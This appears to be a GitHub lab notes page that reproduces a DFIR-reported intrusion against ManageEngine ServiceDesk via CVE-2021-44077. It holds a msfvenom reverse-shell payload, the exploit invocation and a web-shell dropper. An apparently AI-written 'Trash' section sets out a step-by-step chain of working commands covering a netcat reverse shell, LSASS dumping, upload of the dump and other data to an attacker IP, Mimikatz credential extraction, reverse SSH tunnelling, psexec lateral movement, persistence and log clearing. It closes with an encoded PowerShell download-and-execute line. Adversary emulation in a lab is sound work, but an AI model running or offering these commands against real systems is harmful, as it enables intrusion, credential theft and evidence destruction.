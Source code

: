 

## 1. Hands On ActionExploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077)

### 1. a. in the POC msiexec.exe is created through `msfvenom`

   ```
   msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.134 LPORT=4444 -f exe > msiexec.exe
   ```

   b. run your listener

   ```
   nc -l 4444
   ```

   c. run the exploit script

   ```
   python3 exploit.py http://192.168.20.135:8080/ msiexec.exe
   ```

   ![CVE-Exploitation-Success](CVE-Exploitation-Success.png)

   #### But this approach isn't same as the report as in the report the Threat Actor dropped a web shell jsp file and then accessed it
   
   ![image](https://github.com/user-attachments/assets/16c25295-6f5a-465d-96b4-da499027becb)

   So, i wrote a simple python Script that when executing it, a wbsh.jsp is created a the \custom\login dir
   
   ![image](https://github.com/user-attachments/assets/a0525bc4-dc65-4c9b-9856-110ae5456b23)

   
   then used pyinstaller to convert it to exe file

   ![image](https://github.com/user-attachments/assets/cb7515a7-7eb1-49a0-b72d-5a3e834b0348)

   now we got `msiexec.exe`, let's use the exploit again

   













------

# Trash

Let's proceed step by step based on the DFIR report. The report describes the attacker’s activities following the initial exploitation. Here’s what you should do next:

### Step 1: Enumerate the System

1. **Enumerate the system to gather information.**
   Run the following commands to gather basic information about the victim machine:

   ```cmd
   ipconfig /all
   systeminfo
   query user
   query session
   ```
2. **Enable WDigest Authentication**

   As mentioned previously, enabling WDigest authentication allows the attacker to later dump credentials in plaintext. Since this step failed earlier due to the key not existing, you will need to create it:

   ```cmd
   reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
   ```

### Step 2: Drop a Web Shell

Since the web shell didn't work earlier, you need to establish a more reliable reverse shell. Let's assume you now upload `nc.exe` (Netcat) and use it to create a reverse shell.

1. **Download Netcat (if not already done)**:

   ```cmd
   powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.20.134:8080/nc.exe', 'C:\windows\temp\nc.exe')"
   ```
2. **Establish a Reverse Shell**:

   On the attacker machine, set up a listener:

   ```bash
   nc -nlvp 4444
   ```

   On the victim machine, execute the reverse shell:

   ```cmd
   C:\windows\temp\nc.exe -e cmd.exe 192.168.20.134 4444
   ```

### Step 3: Periodic Enumeration

According to the report, the attacker periodically enumerated user sessions to identify high-privilege accounts.

1. **Check user sessions periodically**:

   ```cmd
   query user
   query session
   ```

### Step 4: Dump LSASS to Obtain Credentials

On the seventh day, the attacker dumped LSASS to obtain credentials. You can use a tool like `procdump.exe` or `rundll32`.

1. **Dump LSASS using `rundll32`**:

   ```cmd
   rundll32.exe C:\windows\System32\comsvcs.dll MiniDump 640 C:\windows\temp\lsass.dmp full
   ```
2. **Exfiltrate the LSASS Dump**:

   Transfer the LSASS dump file to your attacker machine:

   ```cmd
   powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://192.168.20.134:8080/lsass.dmp', 'C:\windows\temp\lsass.dmp')"
   ```

### Step 5: Analyze LSASS Dump Locally

On your attacker machine, analyze the dump file to extract credentials using tools like Mimikatz.

1. **Use Mimikatz to extract credentials**:

   ```cmd
   mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
   ```

### Step 6: Establish Reverse SSH Tunnel for RDP Access

After obtaining credentials, establish a reverse SSH tunnel for RDP access.

1. **Download and configure `plink.exe`**:

   ```cmd
   powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.20.134:8080/plink.exe', 'C:\windows\temp\plink.exe')"
   ```
2. **Establish a reverse SSH tunnel**:

   ```cmd
   C:\windows\temp\plink.exe -ssh -P 443 -l admin -pw <password> -R 3389:127.0.0.1:3389 192.168.20.134
   ```

### Step 7: Connect via RDP

Using the tunnel, connect to the victim machine via RDP.

1. **Connect to the victim machine**:

   ```bash
   rdesktop -u <username> -p <password> 127.0.0.1:3389
   ```

### Step 8: Lateral Movement

From the beachhead, perform lateral movements to other machines using the credentials obtained.

1. **Enumerate network shares and other machines**:

   ```cmd
   net view /domain
   net group "domain computers" /domain
   ```
2. **Move laterally to other machines**:

   ```cmd
   psexec.exe \\<target-machine> cmd
   ```

### Step 9: Data Exfiltration

Exfiltrate the data of interest from the targeted machines.

1. **Exfiltrate data**:

   ```cmd
   powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://192.168.20.134:8080/exfiltrated_data.zip', 'C:\path\to\data.zip')"
   ```

### Step 10: Clean Up and Persistence

Optionally, set up persistence mechanisms and clean up traces to maintain stealth.

1. **Set up persistence**:

   ```cmd
   schtasks /create /tn "UpdateTask" /tr "C:\path\to\your\backdoor.exe" /sc daily /st 12:00
   ```
2. **Clear logs**:

   ```cmd
   wevtutil cl Application
   wevtutil cl Security
   wevtutil cl System
   ```

By following these steps, you should be able to simulate the attack detailed in the DFIR report on your local network. If you encounter any further issues, feel free to ask for additional assistance.

Enumuratins
WEB SHELL:
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/browser.jsp

Download wshell.jsp command and write it to:
C:\\Program Files (x86)\\ManageEngine\\ServiceDesk\\custom\\login\\wshell.jsp

Command:
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://192.168.20.134:9000/wshell.jsp', 'C:\Program Files (x86)\ManageEngine\ServiceDesk\custom\login\wshell.jsp')"

Encoded:

powershell.exe -Command "[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('cG93ZXJzaGVsbCAtQ29tbWFuZCAiKE5ldy1PYmplY3QgU3lzdGVtLk5ldC5XZWJDbGllbnQpLkRvd25sb2FkRmlsZSgnaHR0cDovLzE5Mi4xNjguMjAuMTM0OjkwMDAvd3NoZWxsLmpzcCcsICdDOlxQcm9ncmFtIEZpbGVzICh4ODYpXE1hbmFnZUVuZ2luZVxTZXJ2aWNlRGVza1xjdXN0b21cbG9naW5cd3NoZWxsLmpzcCcpIg==')) | Invoke-Expression"
